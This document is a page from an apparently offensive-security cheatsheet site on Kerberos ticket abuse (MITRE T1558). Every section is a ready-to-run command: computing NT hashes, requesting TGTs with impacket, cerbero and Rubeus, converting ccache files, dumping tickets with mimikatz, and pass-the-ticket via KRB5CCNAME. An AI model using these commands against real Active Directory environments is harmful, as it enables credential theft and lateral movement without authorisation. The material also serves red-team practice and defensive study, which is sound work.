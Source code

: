 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2023-06-09
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
1. [prereq](#prereq)
2. [get-nthash](#get-nthash)
3. [get-tgt](#get-tgt)
4. [ccache-convert](#ccache-convert)
5. [krb-export](#krb-export)
6. [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='prereq'></a>prereq

* Which OS ? What Creds ?
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### tools

* [Rubeus compilation wiki](https://github.com/GhostPack/Rubeus)
* cerbero
* tickey
* impacket

##  2. <a name='get-nthash'></a>get-nthash
```
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

##  3. <a name='get-tgt'></a>get-tgt
```
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_dc_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_computer_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip

cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

##  4. <a name='ccache-convert'></a>ccache-convert

* Convert linux to windows krb ticket :
```
ticketConverter.py $ztarg_user_name.ccache $ztarg_user_name.krb
cerbero convert -i $ztarg_user_name.ccache -o $ztarg_user_name.krb
```

##  5. <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

##  6. <a name='krb-ptt'></a>krb-ptt
```bash
# linux
export KRB5CCNAME="$PWD/$ztarg_user_name.krb" 
```

